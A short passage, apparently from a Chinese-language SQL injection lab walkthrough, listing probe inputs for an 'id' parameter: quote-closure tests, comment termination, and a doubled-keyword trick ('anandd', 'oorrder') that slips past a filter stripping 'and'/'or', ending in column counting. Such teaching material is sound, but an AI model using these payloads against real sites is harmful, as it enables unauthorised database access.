 ![](/assets/images/move/1552883028265-5171c1ed-f4c3-474c-b100-cb08239d803d.png)

![](/assets/images/move/1552882900403-54768523-ac70-43d2-98cf-edeba4bd50e2.png)



试探过程如下：

```sql
?id=1'  回显空白 -> 可能为单引号闭合
?id=1'--+ 回显正常 -> 单引号闭合方式
?id=1' and 1=1--+ 回显空白 -> 可能过滤了and
?id=1' And 1=1--+ 回显空白 -> 可能过滤了大小写
?id=1' anandd 1=1--+ 回显正常 -> 嵌套剥离绕过 过滤了and、or
?id=1' oorrder by 3--+ ->列数为3
```
